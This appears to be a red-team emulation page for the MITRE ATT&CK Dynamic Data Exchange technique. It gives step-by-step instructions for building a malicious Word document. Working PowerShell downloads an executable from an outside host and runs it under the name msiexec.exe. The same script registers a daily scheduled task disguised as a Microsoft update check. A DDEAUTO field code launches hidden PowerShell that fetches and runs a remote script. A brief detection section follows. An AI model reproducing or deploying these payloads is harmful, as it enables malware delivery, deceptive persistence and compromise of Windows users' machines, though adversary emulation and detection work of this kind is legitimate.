

# [Dynamic Data Exchange](https://attack.mitre.org/techniques/T1559/002/)

## Exploit Syntax: 

1. Create a txt file named `stage2.txt`

    ```sh
    subl ~/cyber_gambit/resources/malware/stage2.txt
    ```
2. Paste in the powershell below.

   ```powershell
   $url = "http://cpuprok.com/en-us/microsoft-365/update"
   $outpath = "$env:USERPROFILE\msiexec.exe"
   iwr -uri $url -outfile $outpath
   start-process -filepath $outpath
   $action = New-ScheduledTaskAction -Execute $outpath
   $trigger = New-ScheduledTaskTrigger -Daily -At 9am
   Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "MSUpdateCheck" -Description "This task grabs Microsoft Official Updates."
   ```
  > NOTE: Any varibles above can be changed out. 
3. Open a Microsoft Word Document

4. Navigate to the tool bar the at top and select the insert tab

   

5. Under Quick Parts dropdown select Field then press ok.

   


6. Right Click toggle field codes and paste the contents below within the `{}` :
    ```powershell 
    { DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://[webserver ip:port]/[saved ps1 file].ps1');powershell $e # " "for security reasons"}
    ```
    > NOTE: Nake sure to set your url and file name 

   

7. Save the document.
---
## Detection Method

1. Investigate embedded code within `Microsoft Office` applications
Searching for `winword.exe` with the `/dde` flag in the command line should indicate a DDE execution. 

2. The `winword.exe` event PID should be the PPID of another process, demonstrating that this DDE flag launched another process (in our case, it launches powershell)


---
## Resources    
https://www.securitysift.com/abusing-microsoft-office-dde/
https://1337red.wordpress.com/using-the-dde-attack-with-powershell-empire/
https://blog.2code-monte.co.uk/2021/03/17/creating-a-cyber-attack-part-9-making-a-malicious-word-document-using-dde-and-powershell/
